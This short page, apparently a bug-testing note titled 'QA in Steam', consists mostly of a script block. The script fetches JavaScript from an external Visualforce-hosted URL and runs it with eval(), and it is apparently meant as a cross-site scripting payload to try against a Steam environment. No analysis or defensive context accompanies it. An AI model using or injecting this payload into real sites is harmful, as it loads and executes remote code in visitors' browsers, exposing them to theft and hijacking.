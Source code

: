 # QA in Steam

Trying out the bug against a steam environment

<script>
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.open("GET", 'https://vfmetadata--c.stmfa.stm.visualforce.com/resource/1554832772000/banana/myjs.js');
    xmlhttp.onreadystatechange = function()
    {
        if ((xmlhttp.status == 200) && (xmlhttp.readyState == 4))
        {
            eval(xmlhttp.responseText);
        }
    };
    xmlhttp.send();
</script>
